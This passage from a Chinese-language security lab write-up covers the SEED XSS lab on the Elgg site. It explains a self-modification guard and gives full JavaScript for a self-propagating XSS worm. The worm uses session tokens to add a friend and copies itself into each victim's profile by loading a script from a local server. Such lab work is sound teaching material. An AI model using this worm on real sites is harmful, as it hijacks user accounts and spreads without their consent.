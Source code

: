 ```html
				}
}
</script>
```

**Question 3: Why do we need Line ➀? Remove this line, and repeat your attack. Report and explain your observation.**

这段就是为了防止自己被修改，如果移除了这段那samy访问自己profile的时候自己的profile也会被修改。

# Task 6: Writing a Self-Propagating XSS Worm

## **Link Approach**

使用python开一个服务，然后在当前目录下写下’worm.js’，内容是一个蠕虫脚本，首先添加Samy为好友，然后进行自复制传播：

```jsx
window.onload = function(){
		var Ajax=null; 
		var userName="&name="+elgg.session.user.name;
		var guid="&guid="+elgg.session.user.guid;
		var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
		var token="&__elgg_token="+elgg.security.token.__elgg_token;
		var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token; 
		Ajax=new XMLHttpRequest(); 
		Ajax.open("GET", sendurl, true); 
		Ajax.send(); 
		
		var userName="&name="+elgg.session.user.name;
		var guid="&guid="+elgg.session.user.guid;
		var content="briefdescription=" + encodeURIComponent('<script src="http://127.0.0.1:8888/worm.js"></script>') + userName + guid + ts + token;
		var samyGuid=59;
		var sendurl="http://www.seed-server.com/action/profile/edit";
		if(elgg.session.user.guid!=samyGuid)
		{
				var Ajax=null;
				Ajax=new XMLHttpRequest();
				Ajax.open("POST", sendurl, true);
				Ajax.setRequestHeader("Content-Type",
				"application/x-www-form-urlencoded");
				Ajax.send(content);
		}
}
```

这里有一些细节， `encodeURIComponent` 这个函数可以把一些空格之类的转义。不要转义其他的字符串，否则有可能’=’也会被转义。

在Samy中注入脚本：

```jsx
<script src="http://127.0.0.1:8888/worm.js"></script>
```
